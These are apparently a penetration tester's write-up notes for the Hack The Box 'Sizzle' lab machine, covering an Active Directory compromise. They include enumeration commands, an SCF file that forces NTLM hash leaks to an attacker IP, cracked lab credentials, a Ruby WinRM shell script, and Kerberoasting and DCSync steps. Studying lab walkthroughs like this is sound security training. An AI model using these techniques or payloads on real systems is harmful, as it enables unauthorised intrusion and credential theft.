

# sizzle


## nmap


## ssl-cert

```
443/tcp  open  ssl/http      Microsoft IIS httpd 10.0                                                                                                                    
| http-methods:                                                                                             |_  Potentially risky methods: TRACE                                                                       |_http-server-header: Microsoft-IIS/10.0                                                                   |_http-title: Site doesn't have a title (text/html).                                                       | ssl-cert: Subject: commonName=sizzle.htb.local                                                           | Not valid before: 2018-07-03T17:58:55                                                                     |_Not valid after:  2020-07-02T17:58:55                                                                     |_ssl-date: 2020-09-14T15:15:23+00:00; +32s from scanner time.                                             | tls-alpn:                                                                                                 |   h2                                                                                                      |_  http/1.1                            
```


- we have CN we can it to hosts file maybe there is a virutal host routing


## DNS

nslookup

```
> sizzle.htb.local
Server:         10.10.10.103
Address:        10.10.10.103#53

Name:   sizzle.htb.local
Address: 10.10.10.103
Name:   sizzle.htb.local
Address: dead:beef::695b:f553:d451:5615
> htb.local
Server:         10.10.10.103
Address:        10.10.10.103#53

Name:   htb.local
Address: 10.10.10.103
Name:   htb.local
Address: dead:beef::695b:f553:d451:5615
Name:   htb.local
Address: dead:beef::21c5:d165:7a84:27c4
```

- zone transfer failed


## http

- no virtual host routing is present

```
gobuster dir -u htb.local -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt -o gobuster-root.txt
```

```
//aspnet_client/ (Status: 403)
//certenroll/ (Status: 403)
//certsrv/ (Status: 401)	needs authentication
//images/ (Status: 403)
```


## smb

```
crackmapexec smb 10.10.10.103 -u 'anonymous' -p '' --shares
smbmap -H htb.local -u 'anonymous'
```


- IPC$ is a default share 
- Department Shares is different so we will first look at it


- Department Shares hash lots of file
- better option will be to mount it for further enumeration


#### mount

```
sudo mount -r cifs '\\htb.local\Department Shares' mntFolder
```


#### permissions

- searching for writable directories recursively

```bash
find . -type d | while read directory; do                                                                   
  sudo  touch ${directory}/0xdf 2>/dev/null && echo "${directory} - write file" && sudo rm ${directory}/0xdf; 
  sudo  mkdir ${directory}/0xdf 2>/dev/null && echo "${directory} - write dir" && sudo rmdir ${directory}/0xdf; 
done
```


- smbcacls is also good to find permissions

```
for i in $(ls); do echo '\n\n'$i;smbcacls -N '\\htb.local\Department Shares' $i; done
```


## responder

- now we know there are writable directories
- we can create a scf file which will pass the hash to us

[for more information](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/#:~:text=SMB%20is%20a%20protocol%20which,passwords%20and%20database%20connection%20strings.)

```
[Shell]
Command=2
IconFile=\\X.X.X.X\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```


- upload it on public folder and wait for any hashes to come


## hashcat


```
hashcat --example-hashes | grep -A3 -B3 -i ntlmv2
```


#### credentials

```
htb.local\AMANDA		Ashare1972
```


## winrm

- this active directory hash ps session through private key we cannot use user and pass to access the session
- we need to create a key and get it signed by the box certificate authority to proceed further


#### certificate signing

- we will use openssl to create a key and certificate signing request from that key

```
openssl genrsa -aes256 -out amanda.key 2048				#creates a private key

openssl req -new -key amanda.key -out amanda.cer		#creates a signing request for that key
```


- we will get a signed certificate 
- we will use a custom evil-winrm to go with our ssl [link](https://raw.githubusercontent.com/Alamot/code-snippets/master/winrm/winrm_shell.rb)

```ruby
require 'winrm'

# Author: Alamot

conn = WinRM::Connection.new( 
  endpoint: 'https://htb.local:5986/wsman',
  transport: :ssl,
        client_cert: 'amanda.cer',
        client_key: 'amanda.key',
        key_pass:       'manish',
        :no_ssl_peer_verification => true
)

command=""

conn.shell(:powershell) do |shell|
    until command == "exit\n" do
        output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")
        print(output.output.chomp)
        command = gets        
        output = shell.run(command) do |stdout, stderr|
            STDOUT.print stdout
            STDERR.print stderr
        end
    end    
    puts "Exiting with code #{output.exitcode}"
end
```


#### shell

- successfully got a shell as amanda with a signed certificate


## covenant


[covenant C2 Framework](https://github.com/cobbr/Covenant)

- Covenant is a command and control framwork we will use
- we will use sharphound and download it with convenant


- now we will load it is bloodhound to see the result


## bloodhound


- users with DSSync rights
- mrkly has DCSync rights 




- mrlky is also kerberoastable user


## kerberoasting

- we will use covenant to get a tgs ticket of mrlky user
- but first we need to create a token of a valid user so that bind with domain can be successful.


- kerberoastable user


#### credentials

```
htb.local\mrlky 	Football#7
```


## DCSync attack


- impacket to dump hashes


- or using convenant


#### pass the hash attack


